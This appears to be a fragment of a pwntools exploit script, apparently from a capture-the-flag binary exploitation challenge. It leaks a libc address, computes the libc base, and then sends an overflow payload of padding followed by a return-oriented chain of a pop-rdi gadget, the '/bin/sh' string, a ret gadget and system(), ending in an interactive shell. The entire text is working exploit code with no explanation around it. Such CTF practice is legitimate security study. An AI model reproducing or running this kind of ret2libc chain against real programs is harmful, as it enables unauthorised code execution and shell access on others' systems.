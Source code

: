```python
p.sendline(payload)
p.recvuntil(b"That seems reasonable!\n")
libc.address = int.from_bytes(p.recv(6),"little") - 0x84420
log.info("[+]LIBC LEAK :"+hex(libc.address))


p.sendline(b"sell 2")
p.sendline(b"+")
payload = flat(
    b"A"*0x200,p64(exe.address + 0x4500),
    RDI,next(libc.search(b"/bin/sh\x00")),
    RET,
    libc.sym['system']
)
p.sendline(payload)



p.interactive()

```





